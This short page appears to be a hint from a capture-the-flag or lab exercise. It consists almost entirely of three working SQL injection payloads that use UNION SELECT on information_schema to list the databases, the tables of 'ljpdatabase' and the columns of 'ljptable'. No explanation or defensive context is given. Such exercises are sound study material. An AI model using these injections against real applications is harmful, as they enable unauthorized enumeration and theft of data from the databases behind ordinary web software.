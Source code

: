 # Hint
Leak databases
```
1\' UNION SELECT 1, table_schema , 1, true FROM information_schema.tables # 
```

Leak table
```
1\' UNION SELECT 1, table_name , 1, true FROM information_schema.tables WHERE table_schema = "ljpdatabase" #
```

Leak column
```
1\' UNION SELECT 1, column_name , 1, true FROM information_schema.columns WHERE table_name = "ljptable" #
```

